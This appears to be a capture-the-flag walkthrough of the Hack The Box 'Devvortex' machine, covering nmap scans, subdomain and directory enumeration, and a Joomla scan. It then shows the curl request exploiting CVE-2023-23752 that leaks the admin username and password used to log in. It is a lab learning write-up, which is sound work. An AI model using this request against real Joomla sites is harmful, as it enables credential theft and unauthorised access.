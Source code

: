 # **Machine Info**

| OS        | Linux    |
| --------- | -------- |
| **Level** | **Easy** |


# **Walkthrough**
**Enumeration**
1. Scanning the open ports first revels two ports 22 and 80 running ssh and http.
```
	$sudo nmap -p- --min-rate 10000 -oA portScan 10.10.11.242
	Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-13 18:14 +0545
	Nmap scan report for 10.10.11.242 (10.10.11.242)
	Host is up (0.33s latency).
	Not shown: 65533 closed tcp ports (reset)
	PORT   STATE SERVICE
	22/tcp open  ssh
	80/tcp open  http
```

2. Further scanning the open port for the service version along with default set script.
```
	$sudo nmap -sC -sV -p22,80 --min-rate 10000 -oA serviceScan 10.10.11.242
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-13 18:15 +0545
Nmap scan report for 10.10.11.242 (10.10.11.242)
Host is up (0.33s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.81 seconds

```

3. Adding the domain name in our `/etc/hosts` file.
	- ![](Assets/Pasted%20image%2020250313183443.png)

4. This is the website running in the 80 port.
	![](Assets/Pasted%20image%2020250320033427.png)

5. During subdomain enumeration, I discovered `dev.devvortex.htb`.
	![](Assets/Pasted%20image%2020250320033021.png)
	- I then updated the `/etc/hosts` file to include this new subdomain. Upon visiting `dev.devvortex.htb`, I noticed that the website appeared different from the main domain.

6. After the directory enumeration on the new sub-domain, i found a few of status 200 which indicate success and lots of status 403 which mean access to the following resources were forbidden.
	- ![](Assets/Pasted%20image%2020250320040449.png)
	- Here are all the directory name of status code 200 with size. Among it, i found `/robots.txt` interesting as it might contain other hidden directories. Robot.txt is the page containing instruction for bot, like web crawler, which web page to access and not to access.
		```
		/index.php            (Status: 200) [Size: 23221]
		/LICENSE.txt          (Status: 200) [Size: 18092]
		/robots.txt           (Status: 200) [Size: 764]
		/.                    (Status: 200) [Size: 23221]
		/configuration.php    (Status: 200) [Size: 0]
		/README.txt           (Status: 200) [Size: 4942]
		/htaccess.txt         (Status: 200) [Size: 6858]
		```

7. I then visited the `robot.txt` directory and know that it is running Zoomla CMS (Content Management System). Then i ran zoomscan, a zoomla vulnerability scanner, on the site, which detected the version name `4.2.6`. A google search reveal that, the version is vulnerable to improper access check leading to unauthorised access (CVE-2023-23752). 
	```
	
	[+] FireWall Detector
	[++] Firewall not detected
	
	[+] Detecting Joomla Version
	[++] Joomla 4.2.6
	
	[+] Core Joomla Vulnerability
	[++] Target Joomla core is not vulnerable
	
	[+] Checking apache info/status files
	[++] Readable info/status files are not found
	
	[+] admin finder
	[++] Admin page : http://dev.devvortex.htb/administrator/
	
	[+] Checking robots.txt existing
	[++] robots.txt is found
	path : http://dev.devvortex.htb/robots.txt 
	
	Interesting path found from robots.txt
	http://dev.devvortex.htb/joomla/administrator/
	http://dev.devvortex.htb/administrator/
	http://dev.devvortex.htb/api/
	http://dev.devvortex.htb/bin/
	http://dev.devvortex.htb/cache/
	http://dev.devvortex.htb/cli/
	http://dev.devvortex.htb/components/
	http://dev.devvortex.htb/includes/
	http://dev.devvortex.htb/installation/
	http://dev.devvortex.htb/language/
	http://dev.devvortex.htb/layouts/
	http://dev.devvortex.htb/libraries/
	http://dev.devvortex.htb/logs/
	http://dev.devvortex.htb/modules/
	http://dev.devvortex.htb/plugins/
	http://dev.devvortex.htb/tmp/
	
	
	[+] Finding common backup files name
	[++] Backup files are not found
	
	[+] Finding common log files name
	[++] error log is not found
	
	[+] Checking sensitive config.php.x file
	[++] Readable config files are not found
	```

8. Exploiting the vulnerability, I got the user credential.
```
	curl  http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
```
`{"type":"application","id":"224","attributes":{"user":"lewis","id":224}},{"type":"application","id":"224","attributes":{"password":"P4ntherg0t1n5r3c0n##","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"sd4fg_","id":224}},`

- Then i logged in to `/administrator/index.php` with the credential and got access to the administrator dashboard.
- ![](Assets/Pasted%20image%2020250320053843.png)
- ![](Assets/Pasted%20image%2020250320053911.png)









https://iammr0ot.github.io/posts/devvortex/


https://medium.com/@aniketdas07770/hackthebox-devvortex-writeup-b6fa1f007dff